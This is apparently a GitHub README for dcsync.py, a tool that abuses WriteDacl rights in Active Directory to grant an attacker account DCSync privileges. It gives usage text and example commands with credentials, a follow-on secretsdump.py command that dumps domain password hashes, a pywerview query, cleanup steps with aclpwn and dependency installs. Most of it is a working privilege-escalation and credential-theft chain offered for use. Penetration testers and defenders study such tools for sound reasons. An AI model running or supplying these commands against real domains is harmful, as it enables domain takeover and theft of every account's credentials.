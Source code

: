 # Adding DCSync Permissions
Mostly copypasta from https://github.com/tothi/rbcd-attack
```
usage: dcsync.py [-h] -dc FQDN -t USERNAME [-hashes LMHASH:NTHASH] [-k] identity

WriteDacl Attack: To abuse WriteDacl to a domain object, you may grant yourself the DcSync privileges.

positional arguments:
  identity              domain\username:password, attacker account with write access to target computer properties (NetBIOS domain name must be used!)

optional arguments:
  -h, --help            show this help message and exit
  -dc FQDN              FQDN of the Domain Controller
  -t USERNAME           Target user to be escalated in format *Distinguished Names*
  -hashes LMHASH:NTHASH
                        Hash for LDAP auth (instead of password)
  -k                    If you want to use a Kerberos ticket

Example: 
  ./dcsync.py -dc dc01.n00py.local -t 'CN=n00py,OU=Employees,DC=n00py,DC=local'  n00py\Administrator:Password123
  ./dcsync.py -dc dc01.n00py.local -t 'CN=n00py,OU=Employees,DC=n00py,DC=local'  n00py\Administrator -k
  
  ./dcsync.py -dc dc01.n00py.local -t 'CN=spoNge369,CN=Users,DC=n00py,DC=local' 'n00py.local\user_with_writeDACL:P@$$w0rd123'
  
   DCSync Attack (:
      secretsdump.py 'n00py.local/spoNge369:passw0rd123!@dc01.n00py.local'

   Search Distinguished Names(DN) of spoNge369:
      pywerview get-netuser -u'any_valid_user' -p'password321$' -t dc01.n00py.local | perl -wnlE'print if/distinguishedname.+spoNge369/'
  
```

To clean up after you are done, use ACLpwn https://github.com/fox-it/aclpwn.py. This tool is pretty old and not maintained, but you can get it to work. One thing you will need to do is replace “neo4j.v1” with just “neo4j” in database.py. To restore the ACLs to the original configuration, use the restore state file created by the DCSync tool.




## Dependencies:

Impacket <br>
pip3 install pywerview

For kerberos:
```
apt install heimdal-dev -y
apt install libkrb5-dev -y
python3 -m pip install gssapi
```
